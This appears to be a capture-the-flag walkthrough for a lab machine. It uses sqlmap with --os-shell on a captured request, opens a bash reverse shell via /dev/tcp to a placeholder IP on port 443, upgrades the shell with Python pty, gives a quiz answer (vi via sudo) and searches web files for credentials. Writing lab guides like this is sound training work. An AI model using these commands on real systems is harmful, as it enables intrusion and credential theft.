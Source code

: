 - We get same valid request with burp suite:

![[Pasted image 20230623135105.png]]

- Copy request and create new file with him:

![[Pasted image 20230623135309.png]]
![[Pasted image 20230623135351.png]]

- Run sqlmap with this request

```
sqlmap request.req --os-shell
```

![[Pasted image 20230623135456.png]]

![[Pasted image 20230623135618.png]]

- After we have shell we can take reverse shell 

```
run nc to lisstening on port 443
```

![[Pasted image 20230623135917.png]]

- after that run this command on the server sait

```
bash -c "bash -i >& /dev/tcp/{IP-Address}/443 0>&1"
```

![[Pasted image 20230623140018.png]]

- And than we have a connection:

![[Pasted image 20230623140326.png]]

- We can run command for python interactive shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

7. What program can the postgres user run as root using sudo? 

```
vi
```

- Now we can look wor passwords in /var/www/html

![[Pasted image 20230623140840.png]]

- In dashboard.php we found user and password:

![[Pasted image 20230623141015.png]]
